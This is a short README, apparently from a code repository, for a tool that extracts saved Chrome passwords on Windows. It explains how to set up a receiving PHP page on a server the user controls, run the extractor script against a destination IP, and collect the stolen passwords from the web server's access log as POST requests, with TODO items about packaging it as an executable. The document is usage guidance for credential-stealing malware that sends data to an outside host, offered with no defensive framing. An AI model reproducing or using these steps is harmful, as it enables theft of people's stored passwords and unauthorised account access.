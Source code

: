 # extractor
Chrome password extractor for windows

First, set up a php page on a web server you control named ssftp.php
After installing necessary modules and chmod'ing it with `pip install -r requirements.txt && chmod +x extractor.py`, run with `./extractor.py destination_ip`\
The passwords will be in the access.log file if apache2 is used formatted as a post request.

TODO: clean up chrome_password_extractor.py\
      fix issues with modules not installing\
      maybe build .py file into an executable
